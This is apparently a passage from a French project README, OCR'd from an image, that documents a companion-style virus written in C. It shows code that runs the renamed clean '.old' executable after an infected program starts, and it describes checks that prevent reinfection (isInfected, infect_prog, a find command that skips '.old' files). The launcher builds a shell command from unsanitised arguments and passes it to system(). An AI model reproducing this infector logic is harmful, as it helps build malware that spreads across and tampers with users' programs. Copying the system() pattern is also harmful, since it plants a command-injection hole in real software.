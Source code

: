 Si l'utilisateur lance un programme infecté alors on récupére l'éxécutable sain et on l'éxécute( ici on utilise .old pour l'identifier )

```c
char *token;
token = strtok(argv[0],".");
char *lastToken ;
while(token != NULL)
{
    lastToken = token ;
    token = strtok(NULL, ".");
}

char file_path_sain[1000];
sprintf(file_path_sain, "%s%s%s", getUserCurentDir(), lastToken, DEFAULT_EXT);

for(int i = 1; i < argc; i++){
    strcat(file_path_sain, argv[i]);
    strcat(file_path_sain, " ");
}
// Le fichier "sain"
system(file_path_sain);
```
> 


### Protection contre la surinfection

Pour éviter la surinfection nous avons pris plusieurs précautions. Dans un premier temps nous utilisons  `find ... -not -name '*.old'` pour éviter de récupérer les fichiers .old et donc de faire des vérifications inutiles.

Ensuite nous vérifions avec ce code si le fichier est déjà infecté ou non ou buffer est le chemin du fichier infecté et le malware.

```c
if(isInfected(buffer, malware) == 0){
    infect_prog(buffer, malware);
}
```

`isInfected()` fonctionne de la manière suivante:

```c
/**
* Vérifie si le fichier path est infecté .old et sans extension sont présent
* @Param path : chemin du fichier à vérifier
* @Param malware : malware
*/
bool isInfected(char *path, MalwareBuilder *malware)
{
    ...
    return(access(malware_path, F_OK) == 0 && access(path, F_OK) == 0);
    
}

```
> isInfected renvoi vrai si le compagnon est en place ainsi que la cible en .old aussi
